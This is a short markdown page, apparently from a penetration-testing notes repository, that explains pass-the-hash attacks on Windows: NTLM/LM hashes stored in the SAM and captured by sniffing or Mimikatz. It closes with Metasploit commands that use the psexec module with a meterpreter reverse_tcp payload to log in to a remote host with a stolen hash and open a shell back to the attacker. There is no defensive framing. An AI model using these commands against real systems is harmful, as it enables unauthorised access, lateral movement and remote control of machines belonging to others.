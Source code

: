 ## General
Pass-the-hash (PtH) is a technique that allows an attacker to authenticate to a remote system using the underlying NTLM or LAN Manager (LM) hash of a user's password, instead of the actual password. This can allow an attacker to gain access to a system or network without knowing the actual password of the user.

On a Windows system, user passwords are stored in a hashed format in the system's local security database, called the Security Account Manager (SAM). When a user enters their password, the system hashes the entered password and compares it to the stored hash to authenticate the user.

In a PtH attack, the attacker obtains the hash of a user's password and uses it to authenticate to a system as that user. This can be done by capturing the hash through a variety of means, such as through a network sniffer, by extracting it from a compromised system, or by using a tool like Mimikatz. Once the attacker has the hash, they can use it to authenticate to a system without knowing the actual password.

## Commands
Make sure you have gather some hash before starting this step and also have a meterpreter session

PtH Module
```
use windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
show options   ---> Set the options (RHOST, RPORT, SMB DOMAIN.., USER/PASS or HASH)
run
```